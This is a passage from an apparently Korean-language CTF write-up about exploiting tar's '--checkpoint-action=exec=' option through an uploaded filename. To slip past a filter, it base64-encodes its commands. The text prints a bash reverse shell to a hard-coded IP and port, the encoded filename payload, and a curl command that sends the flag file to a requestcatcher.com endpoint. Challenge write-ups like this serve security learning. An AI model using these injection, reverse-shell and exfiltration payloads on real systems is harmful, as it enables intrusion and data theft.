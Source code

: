 - 문제가 파일 이름에서 리눅스 명령어를 사용하기엔 tar에서 막고, 따로 파일을 만들어서 `--checkpoint-action=exec=` 뒤에 사용하기엔 파일에 내용이 들어가지 못하는 게 문제이기 때문에 `--checkpoint-action=exec=`에서 파일을 저장하는 명령어를 사용하고, 그러한 명령어를 적기 위해선 필터링을 우회하기 위해 인코딩된 데이터를 디코딩하여 저장하는 식으로 접근했음
- 여기서는 base64로 인코딩한 데이터를 사용하여 페이로드를 작성했음
- 1~2 번째 줄을 인코딩하여 echo뒤에 페이로드를 넣고 파이프라인이나 세미콜론으로 이어서 구성했음
- 그런데 이 페이로드도 문제가 있었는데, 로컬에서는 매우 잘 작동했지만 리모트에서는 동작하지 않았음
```sh
#! /bin/bash
bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'

echo "IyEgL2Jpbi9iYXNoCmJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMjExLjI1MC4yMTYuMjQ5LzcwMDAgMD4mMSc=" | base64 --decode > shell.sh;sh shell.sh

Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo \"IyEgL2Jpbi9iYXNoCmJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMjExLjI1MC4yMTYuMjQ5LzcwMDAgMD4mMSc=\" | base64 --decode > shell.sh;sh shell.sh"
```

- 그러던 와중에 아래와 공지가 눈에 들어왔음
- 바로 해당 문제인 것 같아서 페이로드를 `https://requestcatcher.com/`이 도메인을 사용하여 다시 작성했음
```
Note: For all web challenges, for reasons unknown to mankind, calls back to webhook.site (and perhaps others) are not working so try to use something like https://requestcatcher.com/ (which is confirmed to work)
```

---
### Exploit
```sh
curl -X POST --data-urlencode "data=$(cat /flag*)" https://asdf.requestcatcher.com/test

echo "Y3VybCAtWCBQT1NUIC0tZGF0YS11cmxlbmNvZGUgImRhdGE9JChjYXQgL2ZsYWcqKSIgaHR0cHM6Ly9hc2RmLnJlcXVlc3RjYXRjaGVyLmNvbS90ZXN0" | base64 --decode > shell.sh;sh shell.sh

Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo \"Y3VybCAtWCBQT1NUIC0tZGF0YS11cmxlbmNvZGUgImRhdGE9JChjYXQgL2ZsYWcqKSIgaHR0cHM6Ly9hc2RmLnJlcXVlc3RjYXRjaGVyLmNvbS90ZXN0\" | base64 --decode > shell.sh;sh shell.sh"
```

